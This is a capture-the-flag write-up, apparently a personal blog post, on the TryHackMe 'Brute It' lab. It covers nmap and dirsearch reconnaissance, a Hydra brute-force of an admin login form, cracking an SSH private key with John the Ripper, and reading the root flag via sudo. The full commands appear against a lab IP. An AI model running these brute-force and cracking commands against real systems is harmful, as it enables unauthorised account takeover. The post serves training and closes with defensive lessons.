 ```yaml
---
title: "🧪 TryHackMe – Brute It"
layout: post
collection: writeups
permalink: /writeups/tryhackme-brute-it/
categories: [EH]
tags: []
image: /assets/images/writeups/brute-it/tryhackme-brute-it.png
thumbnail: /assets/images/writeups/brute-it/tryhackme-brute-it.png
icon: fas fa-bolt
excerpt: "Brute-forced SSH using Hydra, cracked RSA key with John the Ripper, and escalated to root on an Ubuntu machine."
description: "Hydra brute-force against an admin panel, SSH key crack with john, and privilege escalation on an Ubuntu machine."
date: 2025-09-20
---
```




![Brute It Screenshot](/assets/images/writeups/brute-it/tryhackme-brute-it.png)

## 🧠 Target
- Brute-force login credentials over SSH  
- Hash cracking  
- Privilege escalation

## 🛠 Tools Used
- Hydra  
- Nmap  
- John the Ripper  
- Kali Linux

## 🧭 Steps

### Step 1 — Deployed the target machine
Target IP: `10.10.34.33`  
Deployed the target and confirmed reachability.

![Target Machine](/assets/images/writeups/brute-it/target-machine.png)

### Step 2 — Nmap scan
Command:
nmap -sS -sV 10.10.34.33

markdown
Copy code
Findings: ports `22` (ssh) and `80` (http) open. SSH: **OpenSSH 7.6p1**. Apache: **2.4.29**. OS: **Ubuntu**.

![Nmap](/assets/images/writeups/brute-it/nmap.png)

### Step 3 — Hidden directories
Used dirsearch:
dirsearch -u http://10.10.34.33


Found `/admin` — admin login page available.

![Dirsearch](/assets/images/writeups/brute-it/dirsearch.png)

### Step 4 — Admin page analysis
Visited `http://10.10.34.33/admin`. Devtools revealed a username hint: `admin`.

![Admin Devtools](/assets/images/writeups/brute-it/User-login-info-devtools.png)

### Step 5 — Hydra brute-force
Initial (slow) command:
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.34.33 http-post-form "/admin/:user=^USER^&pass=^PASS^login=^Login:Username or password invalid"

makefile
Copy code
Optimized:
hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -t 16 -vV 10.10.34.33 http-post-form "/admin/:user=^USER^&pass=^PASS^&login=Login:Username or password invalid"

ruby
Copy code
Result: `login: admin  password: xavier`

![Hydra](/assets/images/writeups/brute-it/hydra1.png)

### Step 6 — Logged in as admin
Gained user access. Web flag: `THM{brut3_f0rce_is_e4sy}`.

![Admin Login](/assets/images/writeups/brute-it/login-success.png)

### Step 7 — Extracted RSA private key & cracked it
Saved RSA private key and converted it for John:
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=SSH hash
john --show hash

ruby
Copy code
Cracked key allowed SSH as `john`.

![RSA crack](/assets/images/writeups/brute-it/rockinroll.png)

### Step 8 — Shell & flags
Used the private key:
chmod 600 id_rsa
ssh -i id_rsa john@10.10.34.33
cat user.txt

ruby
Copy code
Web Flag: `THM{brut3_f0rce_is_e4sy}`  
User flag present. Then escalated to root.

![Shell](/assets/images/writeups/brute-it/root.png)

### Step 9 — Privilege escalation
Checked sudo rights:
sudo -l
sudo cat /root/root.txt

yaml
Copy code
Root flag: `THM{pr1v1l3g3_3sc4l4t10n}`

![Privilege](/assets/images/writeups/brute-it/sudo.png)

---

## 📘 Lessons Learned
- Enforce account lockout and rate-limiting (prevent brute-force).  
- Use multi-factor authentication or SSH key policies.  
- Avoid guessable credentials and default accounts.

---

## Notes / Artifacts
- Commands used and screenshots are included above.  
- Sanitize any client screenshots before publishing publicly.
